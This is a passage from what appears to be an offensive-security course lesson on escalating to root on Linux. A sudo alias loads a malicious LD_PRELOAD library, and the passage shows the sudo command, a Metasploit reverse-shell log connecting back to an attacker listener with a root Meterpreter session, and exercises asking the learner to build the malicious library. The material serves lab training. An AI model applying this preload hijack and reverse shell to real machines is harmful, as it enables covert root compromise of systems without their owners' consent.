 > Listing 71 - Setting the sudo alias

Note that if we were to execute this attack in the normal user's context, we would want to set the environment variable in the user's .bashrc or .bash_profile, similar to what we did with _LD_LIBRARY_PATH_.

After reloading our .bashrc file as we did before with source, we can run the cp command again.

```
offsec@linuxvictim:~$ sudo cp /etc/passwd /tmp/testpasswd
HACK: returning from function...
```

> Listing 72 - Running our command with sudo

Next, we check our Metasploit console and find that we've received a session as _root_.

```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.119.120:1337 
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 9 opened (192.168.119.120:1337 -> 192.168.120.46:39464) at 2020-07-29 11:16:07 -0400

meterpreter > getuid
Server username: no-user @ linuxvictim (uid=0, gid=0, euid=0, egid=0)
```

> Listing 73 - Successfully received a root shell

Excellent! We've escalated privileges and our victim is completely unaware.

As demonstrated, _LD_PRELOAD_ can be an effective exploitation method in certain scenarios.

#### Exercises

1. Compile a malicious library file to hook the _geteuid_ function. Load the library with _LD_PRELOAD_ and get code execution using cp.
2. Get a root shell using the above malicious library by creating a sudo alias.

1

(Man7.org, 2020), [https://man7.org/linux/man-pages/man8/ld.so.8.html](https://man7.org/linux/man-pages/man8/ld.so.8.html) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5301-1)

2

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Dynamic_linker](https://en.wikipedia.org/wiki/Dynamic_linker) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5301-2)

3

(Wikipedia, 2020), [https://en.wikipedia.org/wiki/Type_signature#Method_signature](https://en.wikipedia.org/wiki/Type_signature#Method_signature) [↩︎](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fnref-local_id_5301-3)

4
